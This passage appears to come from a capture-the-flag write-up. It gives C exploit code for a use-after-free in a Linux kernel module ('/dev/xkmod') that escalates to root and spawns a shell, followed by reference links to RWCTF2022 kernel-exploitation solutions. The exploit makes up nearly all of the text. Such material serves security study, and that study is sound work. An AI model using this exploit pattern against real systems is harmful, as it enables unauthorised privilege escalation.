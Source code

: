 ```assembly
    ioctl(dev_fd, 0x6666666, data);
}


void readBuf(int dev_fd, Data *data){
    ioctl(dev_fd, 0x7777777, data);
}


int main(void){
    int dev_fd[5];
    for (int i = 0; i < 5; i++) {
        dev_fd[i] = open("/dev/xkmod", O_RDONLY);
    }


    Data data;
    data.ptr = malloc(0x100);
    data.offset = 0;
    data.length = 0x50;

    allocBuf(dev_fd[0], &data);
    close(dev_fd[0]);


    int pid = fork();
    if (!pid){
        for (int i = 0; i < 10; i++){
            data.ptr[i] = 0;
        }
        editBuf(dev_fd[1], &data);
        if (!getuid()){
            puts("[+] Get root.");
            setresuid(0, 0, 0);
            setresgid(0, 0, 0);
            system("/bin/sh");
            exit(EXIT_SUCCESS);
        }

    }
    wait(NULL);

    return 0;
}
```

参考：

https://xz.aliyun.com/t/11053?time__1311=Cq0x2Qi%3DGQDQitD%2F8re7KG%3DBm2bF7%3DWK4D#toc-4

https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/heap/slub/freelist/#rwctf2022-digging-into-kernel-1-2

https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/heap/slub/uaf/#old-solution
